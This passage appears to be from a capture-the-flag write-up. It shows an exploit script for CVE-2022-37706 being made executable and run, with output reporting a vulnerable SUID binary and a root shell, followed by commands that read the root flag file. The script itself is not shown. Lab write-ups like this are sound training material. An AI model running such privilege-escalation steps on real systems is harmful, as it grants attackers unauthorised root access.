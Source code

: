 ```sh
chmod +x exploit.sh
```

And run it:

```sh
./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

Now navigate to the home directory and find the flag.

```sh
# cd /root/
# ls
root.txt  snap
# cat root.txt
b1989dee02886acf31766160baea0e47
```



